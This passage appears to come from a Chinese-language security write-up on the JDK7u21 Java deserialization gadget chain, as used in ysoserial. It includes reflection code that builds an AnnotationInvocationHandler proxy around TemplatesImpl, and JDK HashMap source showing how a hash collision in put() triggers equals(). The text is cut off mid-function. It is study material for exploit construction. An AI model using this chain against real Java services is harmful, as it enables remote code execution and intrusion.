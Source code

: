 > Class<?> annoClass = Class.forName("sun.reflect.annotation.AnnotationInvocationHandler");
> Constructor<?> declaredConstructor = annoClass.getDeclaredConstructor(Class.class, Map.class);
> declaredConstructor.setAccessible(true);
> Object anno = declaredConstructor.newInstance(Annotation.class,new HashMap());
> 
> //set anno.type
> setValue(anno,"type",TemplatesImpl.class);
> 
> unsetFinal(anno,"memberMethods");
> setValue(anno,"memberMethods",new Method[]{clazz.getDeclaredMethod("getOutputProperties")});
> 
> Map map = (Map) Proxy.newProxyInstance(Gadget.class.getClassLoader(), new Class[]{Map.class}, (InvocationHandler) anno);
> map.equals(templates);
> ```



**3.接下来就是想办法怎么触发equals方法，且参数可控**

> 要求反序列化中会进行equals方法的，直接可以去全局搜索，这里借用`codeql`的话就很香了。

**4.这里就直接丢出目前链子的利用点，直接采用hashMap之类的？为什么采用这个类呢？**

```java
//HashMap.java
public V put(K key, V value) {
    if (key == null)
        return putForNullKey(value);
    int hash = hash(key);
    int i = indexFor(hash, table.length);
    for (Entry<K,V> e = table[i]; e != null; e = e.next) {
        Object k;
        if (e.hash == hash && ((k = e.key) == key || key.equals(k))) {
            V oldValue = e.value;
            e.value = value;
            e.recordAccess(this);
            return oldValue;
        }
    }

    modCount++;
    addEntry(hash, key, value, i);
    return null;
}
```

map类在反序列化时肯定进行put操作，这时，我们直接看put方法。`其中会有equals操作，前提是key的hash相等，但key不等，相当于就是做hash碰撞》》》也就是让proxy的hash与Templates的hash相等`

> `yso中巧妙的构造hash-->参照<java 安全漫谈>`
>
> ```java
> final int hash(Object k) {
>  int h = 0;
>  if (useAltHashing) {
>      if (k instanceof String) {
>          return sun.misc.Hashing.stringHash32((String) k);
>      }
>      h = hashSeed;
>  }
> 
>  h ^= k.hashCode();
> 
>  // This function ensures that hashCodes that differ only by
>  // constant multiples at each bit position have a bounded
>  // number of collisions (approximately 8 at default load factor).
>  h ^= (h >>> 20) ^ (h >>> 12);